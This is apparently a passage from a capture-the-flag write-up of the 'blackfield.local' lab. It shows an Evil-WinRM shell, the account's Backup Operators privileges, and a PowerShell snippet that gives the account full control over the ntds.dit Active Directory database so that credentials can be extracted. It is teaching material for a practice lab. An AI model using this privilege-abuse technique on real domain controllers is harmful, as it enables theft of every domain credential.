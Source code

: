 ```
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/20/2020 9:38:19 PM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Our account have way to much power!

> *SeBackup* & *SeRestore* privileges (from the *Backup Operators* group) allow us to
> set permissionand ownership on each file & folder.

References:

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction, by bohops, March 26th 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
- [show me your privileges and I will lead you to SYSTEM, by Andrea Pierini at Hack in Paris, June 19th 2019](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

Normally we shouldn't be able to access ntds.dit (Active Directory database)
but since *SeBackup* & *SeRestore* privileges let us set any permission on
any file we will be able to fix that.

Let's auto-gives us full control on `ntds.dit`.

```powershell
$ntds_file = "C:\Windows\NTDS\ntds.dit"
$acl_ntds = Get-Acl $ntds_file
$domain = "blackfield.local"
$account = "svc_backup"
$access_rule = New-Object System.Security.AccessControl.FileSystemAccessRule("$domain\$account","FullControl","Allow")
$acl_ntds.SetAccessRule($access_rule)
$acl_ntds | Set-Acl $ntds_file
```
